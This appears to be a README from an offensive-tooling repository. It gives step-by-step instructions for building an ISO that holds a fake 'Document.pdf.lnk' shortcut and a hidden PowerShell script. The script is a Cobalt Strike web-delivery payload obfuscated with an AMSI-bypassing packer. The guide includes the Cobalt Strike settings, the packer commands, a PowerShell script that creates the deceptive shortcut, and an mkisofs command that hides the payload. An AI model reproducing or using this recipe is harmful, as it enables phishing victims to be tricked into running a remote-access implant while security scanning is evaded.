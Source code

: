 # Packer.iso
## Description
ISO containing a LNK file and a hidden PS1. The LNK is ofuscated to use a Chrome icon and named Document.pdf.lnk (if 'show hidden files' is turned off, uses will only see Document.pdf.) LNK runs Powershell to execute the PS1 script. The PS1 script is CobaltStrike's scripted web delivery PowerShell URI (hosted.) It is obfuscated using F*ckThatPacker.
## Steps
### On Kali
Use CobaltStrike: Attacks > Web Drive-By > Scripted Web Delivery(S)
	URI is arbitrary (/CISA.ps1, /DefenderDefinitions.ps1, etc.)
	Localhost is 127.0.0.1 when hosting over CloudFront
	Local Port is 443 for HTTPS
	Listener is (usually) HTTPS
	Type is powershell
	x64 is checked
	SSL is checked
Once generated, save the powershell command that CobaltStrike outputs to a file (i.e /share/Working/name/webdriveby.txt).

Download F*ckThatPacker
	`git clone https://github.com/Unknow101/FuckThatPacker`
Use F*ckThatPacker to obfuscate the command (adds AMSI bypass and XOR encryption.)
	`python2.7 FuckThatPacker.py -k 32 -p /share/Working/name/webdriveby.txt`
Output will display on the console. Copy and save the output to a file (i.e. /share/Working/name/FTP/FTP.ps1). #Important to save this in it's own directory

### On Windows
Open PowerShell ISE and input:
```
$path                      = "$([Environment]::GetFolderPath('Desktop'))\Document.pdf.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"
$shortcut.TargetPath       = "powershell.exe"
$shortcut.WorkingDirectory = ""
$shortcut.Description      = "Nope, not malicious"

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()
```
- $path: what the file will be named
- $shortcut.IconLocation: if you're confident that the target will have that resource on their system, can set icon file
- $shortcut.TargetPath: command to execute

Run this script and a Document.pdf.lnk file should be generated to the Desktop.
Right click on Document.pdf.lnk and select Properties
In Target after powershell add "-Command .\FTP.ps1" (...\powershell.exe -Command .\FTP.ps1).
Move this file to be colocated with FTP.ps1 (/share/Working/name/FTP/Document.pdf.lnk)

### On Kali
Run the following to create an ISO containing the files:
`mkisofs -o /share/Working/name/packer.iso -J -r -V "packer" -hidden /share/Working/name/FTP/FTP.ps1 -graft-points "/=/share/Working/name/FTP"`

This should generate an iso containing the LNK and PS1 file (hidden)